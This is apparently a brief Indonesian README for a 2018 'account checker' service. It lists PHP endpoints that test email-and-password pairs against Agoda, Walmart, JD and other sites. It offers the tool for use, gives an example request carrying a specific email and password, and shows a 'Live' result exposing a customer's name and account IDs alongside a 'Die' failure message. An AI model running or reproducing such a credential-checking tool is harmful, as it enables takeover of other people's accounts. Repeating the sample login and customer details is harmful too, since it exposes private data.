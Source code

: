 # api account Checker 2018

Link : http://nblh.site/api/

isi file api

agoda.php

boingo.php

c9.php

indomog.php

jd.php

utm.php

walmart.php



Tambahkan ?email= (required). Email &pwd= (required). Password

Example : http://nblh.site/api/walmart.php?email=nblh.ayu@gmail.com&pwd=cintaku


Live : {"status":"OK","payload":{"firstName":"Robyn","lastName":"Williams","cid":"f225c12d-ebcb-6772-e044-001517f43a86","omsCustomerId":"83251640","customerId":"f225c12d-ebcb-6772-e044-001517f43a86","subscribed":false}}

Die : {"code":"user_auth_fail","error":{"alertType":"error","message":"Your password and email do not match. Please try again or Reset Your Password."}}
